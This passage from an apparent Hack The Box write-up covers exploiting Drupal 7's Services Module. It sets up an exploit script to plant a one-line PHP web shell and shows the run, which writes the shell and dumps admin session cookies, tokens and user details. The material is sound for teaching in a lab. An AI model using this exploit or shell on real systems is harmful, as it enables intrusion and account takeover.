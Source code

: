 I’ll update the script:

```

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => '0xdf.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];

```

#### Execution

Before I run it, I will need to make sure php-curl is installed: `apt install php-curl`

I also need to fix a couple places where comments seem to have wrapped onto the next line. Once I get all that, I can run it:

```

root@kali# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/0xdf.php

```

This gives me several options. Inside `session.json`, I now have the cookies for the administrator’s session:

```

{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs",
    "token": "JNbtufcqf_g1Cyuln_fYeJH3oAmhKXQzy-MzEc0nIe0"
}

```

I also have information on the users in `user.json`:

```

{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1551974856,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
```